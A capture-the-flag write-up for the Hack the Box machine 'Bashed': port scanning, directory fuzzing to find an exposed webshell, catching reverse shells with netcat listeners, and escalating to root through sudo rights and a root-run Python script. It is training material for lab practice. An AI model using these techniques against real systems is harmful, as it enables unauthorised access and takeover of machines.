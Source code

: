 ```yaml
---
layout: post
title: Hack the Box - Bashed
date: 2020-04-25 22:19:22 +0100
description: Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
img: bashed.png
fig-caption: Bashed
categories: HackTheBox
tags: [Easy, Linux, Retired, CTF]
---
```

## Overview
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ sudo nmap -p- -T4  10.129.113.137
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 22:30 GMT
Nmap scan report for 10.129.113.137
Host is up (0.018s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
```
As only port 80 is exposed I tried to access it in a browser. The website your greeted with states that [phpbash](https://github.com/Arrexel/phpbash) is located somewhere on the server. So fuzzing would appear to be the approach.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.113.137/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.113.137/FUZZ
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 7742, Words: 2956, Lines: 162]
uploads                 [Status: 301, Size: 318, Words: 20, Lines: 10]
php                     [Status: 301, Size: 314, Words: 20, Lines: 10]
css                     [Status: 301, Size: 314, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 313, Words: 20, Lines: 10]
images                  [Status: 301, Size: 317, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 316, Words: 20, Lines: 10]
```
As dev appears to be nonstandard I looked in that directory and found the webshell.
## Foothold
To gain the foothold at this point is simple so I just used a python one-liner to send back a reverse shell [Python Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.137] 33262
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```
## Privilege Escalation
When I receive the shell, on linux the first check I always perform is to upload linpeas. From the output I see that the current user can execute commands as the scriptmanager user.
```
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ whoami
whoami
scriptmanager
```
Now that we are the scriptmanager user we have access to the scripts directory located in the root directory. In there we notice there is a python file that we can edit, however there is an output file that is owned by root. This indicates that the script is run by root. So if we enter a reverse shell into the script it should give us a root shell.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/granny]
└─$ nc -nlvp 4342             
listening on [any] 4342 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.137] 36588
root@bashed:/scripts# whoami
whoami
root
```